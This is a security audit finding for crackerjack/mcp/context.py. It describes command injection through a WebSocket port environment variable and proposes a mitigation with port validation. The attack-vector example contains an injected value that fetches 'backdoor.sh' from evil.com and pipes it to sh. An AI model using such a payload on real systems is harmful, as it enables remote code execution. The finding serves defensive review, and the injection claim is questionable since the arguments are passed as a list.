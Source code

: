 **File**: `crackerjack/mcp/context.py`
**Lines**: 307-322

**Description**: The WebSocket server spawning mechanism can be exploited to execute arbitrary commands with elevated privileges.

**Attack Vector**:

```python
# Manipulate environment to control subprocess execution
import os

os.environ["CRACKERJACK_WEBSOCKET_PORT"] = (
    "8675; /bin/sh -c 'curl http://evil.com/backdoor.sh | sh'"
)

# The subprocess.Popen call becomes:
# [sys.executable, "-m", "crackerjack", "--start-websocket-server", "--websocket-port", "8675; /bin/sh -c ..."]
```

**Impact**:

- Arbitrary command execution during server startup
- Potential privilege escalation if MCP server runs with elevated privileges
- System compromise through environment manipulation

**Mitigation**:

```python
async def _spawn_websocket_process(self) -> None:
    import sys

    # SECURE: Validate port number
    try:
        port_num = int(self.websocket_server_port)
        if not (1024 <= port_num <= 65535):
            raise ValueError("Port out of range")
    except ValueError as e:
        raise SecurityError(f"Invalid WebSocket port: {e}")

    # SECURE: Use validated port string
    port_str = str(port_num)

    self.websocket_server_process = subprocess.Popen(
        [
            sys.executable,
            "-m",
            "crackerjack",
            "--start-websocket-server",
            "--websocket-port",
            port_str,  # Validated input
        ],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
        start_new_session=True,
        # SECURE: Clean environment
        env=self._create_secure_subprocess_env(),
    )
```
